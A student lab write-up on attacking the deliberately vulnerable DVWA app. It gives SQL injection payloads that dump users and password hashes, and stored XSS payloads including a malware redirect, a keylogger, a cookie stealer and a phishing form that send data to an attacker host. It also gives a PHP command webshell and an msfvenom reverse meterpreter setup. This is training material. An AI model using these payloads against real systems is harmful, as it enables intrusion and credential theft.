









# Web Application Securitiy Testing

## Instructions:
### Technical Scope:

- DVWA
- SQLi, 
- XSS
- PHP Webshell
- Msfvenom webshell (Meterpreter)

### Tasks:

1. Perform DVWA SQL Injection: Enumerate databases/columns.
2. Perform DVWA Stored XSS attack: Demonstrate stored XSS in DVWA Guestbook.
3. Create PHP webshell: Upload via DVWA file upload, then execute webshell with OS commands (for example: “ls” or “whoami”). 
4. Create a webshell with msfvenom: Upload to DVWA, run Metasploit multi-handler, call the shell and establish a reverse meterpreter session.
5. Document all attacks with screenshots (payload input + result).
6. Update VAPT report with methodology, screenshots, severity, and remediation recommendations. Students can also suggest mitigating controls to minimize the risk of compromise.


## DVWA - SQL injection

Login to DVWA


1. Break the developers' code

```
1'
' OR 1=1
```


2. Balance the query commenting vectors

```
' OR 1=1 -- -
' OR 'a'='a
' UNION SELECT 1,2 -- -
' UNION SELECT database(),user() -- -
' UNION SELECT null,@@version -- -
```


Then we know that that

```
database-name = dvwa
user = root@localhost
```

3. Find the number of columns

```
' ORDER BY 1 -- -
' ORDER BY 2 -- -
' ORDER BY 3 -- -
```





Then, we have access to vulnerable 2 columns. 

4. Find vulnerable columns

```
' UNION SELECT null,table_name FROM information_schema.tables WHERE table_schema=database() -- -
' UNION SELECT null, schema_name FROM information_schema.schemata -- -
```


schema_name from information_schema

```
>> dvwa
>> flag334422
>> metasploit
>> mysql
>> owasp10
>> tikiwiki
>> tikiwiki195
```

5. Change the pointers location

```
' UNION SELECT null,column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='users' -- -
```



column_name:

```
>> user_id
>> first_name
>> last_name
>> user
>> password
>> avatar
```


6. Extracting sensible data

```
' UNION SELECT null,CONCAT(user,':',password) FROM users -- -
' UNION SELECT user,password FROM users -- -
' UNION SELECT CONCAT(user_id,':',first_name,':',last_name,':',user),password FROM users -- -
```




<!-- revisar lo de hash -->

## DVWA - stored XSS attack

#### Basic attacks:
```
<script>alert('XSS')</script>
```


```
<svg onload=alert('XSS')>
```


```

```


#### Redirection to a malicious site

```
<script>
window.location.href = "http://evil.com/malware.exe"
</script>
```


Since we have limitations to type down such a script, we are going to try to do this from the terminal instead:

```
curl -v -X POST \ 
    -b "security=$SECURITY; PHPSESSID=$PHPSESSID" \
    -H "Content-Type: application/x-www-form-urlenconded" \
    -d "txtName-LongXSS&mtxMessage=${MALICIOUS_SITE_PAYLOAD}&btnSign=Sign+Guestbook" \
    "${DVWA_URL}/vulnerabilities/xss_s/" > malicious_site_payload.txt
```


The output may be find in `malicious_site_payload.txt``

From which we found that the attack was successful:


```
<div id="guestbook_comments">
  Name: MalwareRedirect 
    Message:
      <script>
        window.location.href="http://evil.com/malware.exe";
      </ script>
</div>  
```


#### JavaScript Keylogger 

```
<script>
document.onkeypress = function(e) {
  var img = new Image();
  img.src = 'http://192.168.57.10/log.php?key=' + e.key;
}
</script>
```

Run in the terminal as:

```
curl -v -X POST \ 
    -b "security=$SECURITY; PHPSESSID=$PHPSESSID" \
    -H "Content-Type: application/x-www-form-urlenconded" \
    --data-urlencode="txtName=JS-keylogger" \
    --data-urlencode="mtxtMessage=${JAVASCRIPT_KELOGGER_PAYLOAD}" \
    -d "btnSign=Sign+Guestbook" \
    "${DVWA_URL}/vulnerabilities/xss_s/" > javascript_keylogger_payload.txt
```


Which means that we were not successful on doing an XSS-attack in this case


#### Stealing cookies

```
PAYLOAD=''
```


```
curl -v -X POST \ 
    -b "security=$SECURITY; PHPSESSID=$PHPSESSID" \
    -H "Content-Type: application/x-www-form-urlenco ded" \
    --data-urlencode="txtName=JS-keylogger" \
    --data-urlencode="mtxtMessage=${PAYLOAD}" \
    -d "btnSign=Sign+Guestbook" \
    "${DVWA_URL}/vulnerabilities/xss_s/" > stealing_cookies_payload.txt
```



<!-- #### Defacement attack

```
<script>
document.body.innerHTML = '<h1>HACKED BY TechShield Assessment</h1><p>Security Vulnerability Found</p>';
</script>
```

```
curl -v -X POST \ 
    -b "security=$SECURITY; PHPSESSID=$PHPSESSID" \
    -H "Content-Type: application/x-www-form-urlenconded" \
    --data-urlencode="txtName=JS-keylogger" \
    --data-urlencode="mtxtMessage=${DEFACEMENT_PAYLOAD}" \
    -d "btnSign=Sign+Guestbook" \
    "${DVWA_URL}/vulnerabilities/xss_s/" > defacement_payload.txt
```

```
<script>
// Cambiar todo el contenido
document.write('<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:red;color:white;z-index:9999;"><h1>⚠️ SECURITY ALERT ⚠️</h1><p>This site has been compromised</p></div>');
</script>
```

XSS to phishing
```
<script>
// Guardar contenido original
var originalContent = document.body.innerHTML;

// Crear formulario de phishing
document.body.innerHTML = '
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:#333;z-index:9999;padding:20px;">
  <div style="background:white;width:300px;margin:100px auto;padding:20px;border-radius:10px;">
    <h2>Session Expired</h2>
    <p>Please login again:</p>
    <form id="phish">
      <input type="text" name="user" placeholder="Username" style="width:100%;margin:10px 0;padding:8px;"><br>
      <input type="password" name="pass" placeholder="Password" style="width:100%;margin:10px 0;padding:8px;"><br>
      <button type="submit" style="width:100%;padding:10px;background:blue;color:white;border:none;">Login</button>
    </form>
  </div>
</div>';

// Capturar credenciales
document.getElementById('phish').onsubmit = function(e) {
  e.preventDefault();
  var user = this.user.value;
  var pass = this.pass.value;
  
  // Enviar a atacante
  var img = new Image();
  img.src = 'http://192.168.57.10:8000/log.php?u=' + user + '&p=' + pass;
  
  // Restaurar página (opcional)
  document.body.innerHTML = originalContent;
  alert("Login successful!");
  return false;
};
</script>
```

Automation script
```
#!/bin/bash
# DVWA_XSS_Stored_Attack.sh

DVWA_URL="http://192.168.57.30/dvwa"
PHPSESSID="[TU_SESSION_ID]"
SECURITY="low"

echo "[*] Starting DVWA Stored XSS Attack"

# 1. Test básico XSS
echo "[1/5] Testing basic XSS..."
curl -s -b "security=$SECURITY; PHPSESSID=$PHPSESSID" \
  -d "txtName=XSS-Test&mtxMessage=<script>alert('XSS')</script>&btnSign=Sign+Guestbook" \
  "$DVWA_URL/vulnerabilities/xss_s/" | grep -i "alert\|script"

# 2. XSS con imagen
echo "[2/5] Testing XSS with image tag..."
curl -s -b "security=$SECURITY; PHPSESSID=$PHPSESSID" \
  -d "txtName=Img-XSS&mtxMessage=&btnSign=Sign+Guestbook" \
  "$DVWA_URL/vulnerabilities/xss_s/"

# 3. XSS para robo de cookies
echo "[3/5] Deploying cookie stealer..."
COOKIE_STEALER='<script>new Image().src="http://192.168.57.10:8000/steal.php?c="+encodeURIComponent(document.cookie);</script>'
curl -s -b "security=$SECURITY; PHPSESSID=$PHPSESSID" \
  -d "txtName=Cookie-Stealer&mtxMessage=${COOKIE_STEALER}&btnSign=Sign+Guestbook" \
  "$DVWA_URL/vulnerabilities/xss_s/"

# 4. Ver entradas del guestbook
echo "[4/5] Checking guestbook entries..."
curl -s -b "security=$SECURITY; PHPSESSID=$PHPSESSID" \
  "$DVWA_URL/vulnerabilities/xss_s/" | grep -A 2 -B 2 "XSS-Test\|Img-XSS\|Cookie-Stealer"

# 5. Limpiar guestbook (opcional)
echo "[5/5] Cleaning guestbook (optional)..."
# Nota: Esto requiere conocer el ID de la entrada
# curl -s -b "security=$SECURITY; PHPSESSID=$PHPSESSID" \
#   -d "id=[ENTRY_ID]&btnClear=Clear+Guestbook" \
#   "$DVWA_URL/vulnerabilities/xss_s/"

echo "[+] Stored XSS attack deployment complete"
```

Other payloads
```
<ScRiPt>alert('XSS')</ScRiPt>

<scr<script>ipt>alert('XSS')</scr</script>ipt>
```

Using HTML events

```
<body onload=alert('XSS')>
<input type="text" onfocus=alert('XSS') autofocus>
```
 -->

## PHP webshell

#### Basic command php webshell

Basic php webshell



Upload in DVWA:


```
ls
```


```
whoami
```


Let's add an html button to add the command line instead than the url:

```
<?php 
  if(isset($_GET['cmd'])) {
    system($_GET["cmd"]);
  }
?>
<form method="GET">
  Command: <input type="text" name="cmd">
           <input type="submit" value="Execute">
</form>
```


Where we can add the command in the input box:



## MSFVenom exploit

```
msfvenom -p php/meterpreter/reverse_tcp \
    LHOST=192.168.57.10 \
    LPORT=4444
    -f raw > msfvenom-shell.php
```


```
msfconsole

# --------------------------------------------
  msf6 >> use exploit/multi/handler
  msf6 >> set PAYLOAD php/meterpreter/reverse_tcp
  msf6 >> set LHOST 192.168.57.10
  msf6 >> set LPORT 4444
  msf6 >> set ExitOnSession false
  msf6 >> show options
```


```
  msf6 >> exploit -j -z
```

Then we go to `192.168.57.30/dvwa/vulnerabilities/upload` and upload what the `msfvenom-shell.php` that we have created before: 


We check the `meterpreter` that is listening:



once we go to `192.168.57.10:4444``


```
sessions -i 

  meterpreter > sysinfo
  meterpreter > getuid

  shell
    whoami
    pwd
    ls -al
```


Thanks to the output from `ls -al`we know that we are in `DVWA`, because we can find what we saw already in the excercise of uploading the `php`script that we wrote. 

